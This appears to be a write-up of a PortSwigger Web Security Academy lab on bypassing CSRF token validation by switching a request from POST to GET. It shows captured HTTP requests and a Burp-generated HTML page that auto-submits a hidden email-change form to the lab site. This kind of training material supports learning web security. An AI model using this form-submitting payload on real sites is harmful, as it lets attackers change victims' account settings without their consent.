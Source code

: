 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/762d8524-783f-44fb-974c-54439e3ee32d)


## Overview :

alidation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:

```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

## Solution :

Since it is given that the `update email` functionality is vulnerable to CSRF, we can capture the request and see if there is any protection mechanism in place.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk
```

In this **POST** request, we can see that there is a _csrf_ token used in the body of the request along with the email parameter.

To bypass this, we can try to **change the request method from POST to GET** .

```http
GET /my-account/change-email?email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Now we can generate a POC and upload it in the exploit server to solve the lab.

```http
GET /my-account/change-email?email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

**Generated HTML POC -**


```HTTP
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Deliver the exploit to victim.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bee82a7e-ca0f-437b-8e95-41e338a4151a)
















